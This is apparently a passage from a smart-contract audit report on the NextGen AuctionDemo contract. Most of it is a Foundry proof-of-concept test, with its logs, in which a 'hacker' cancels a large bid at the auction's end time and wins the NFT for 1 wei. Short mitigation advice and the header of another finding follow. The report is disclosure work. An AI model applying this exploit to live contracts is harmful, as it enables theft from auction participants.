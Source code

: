 ```solidity
      console.log("Address of highest bidder: ", aDemo.returnHighestBidder(10_000_000_000));

      /// INFO: When auctionEndTime == block.timestamp
      aDemo.cancelBid(10_000_000_000, 1);
      skip(98);
      console.log("Highest bid should be 1 WEI: ", aDemo.returnHighestBid(10_000_000_000));
      console.log("Address of highest bidder: ", aDemo.returnHighestBidder(10_000_000_000));
      console.log("This is the current block.timestamp: ", block.timestamp);
      console.log("This is the auction endTime: ", nextGenMinterContract.getAuctionEndTime(10_000_000_000));
      aDemo.claimAuction(10_000_000_000);
      console.log("Balance of hacker: ", hacker.balance);
      assertEq(hacker, nextGenCore.ownerOf(10_000_000_000));
      vm.stopPrank();
    }
}
```

```solidity
Logs:
  First 1 WEI bid:  1
  Address of highest bidder:  0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718
  Bid 10 ETH:  10000000000000000000
  Address of highest bidder:  0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718
  Highest bid should be 1 WEI:  1
  Address of highest bidder:  0x1efF47bc3a10a45D4B230B5d10E37751FE6AA718
  This is the current block.timestamp:  500
  This is the auction endTime:  500
  Balance of hacker:  10999999999999999999
```

To run the test use: forge test -vvv --mt test_RigAuctionDemo

## Tools Used
Manual Review & Foundry

## Recommended Mitigation Steps
Consider changing the way you track user bids, instead of recording each bid separately, accumulate them for the same user.

## Assessed type
Other


## <a id='M-01'></a>[M-01] Auction can be bricked by a malicious user   
## Lines of code
https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L104-L120
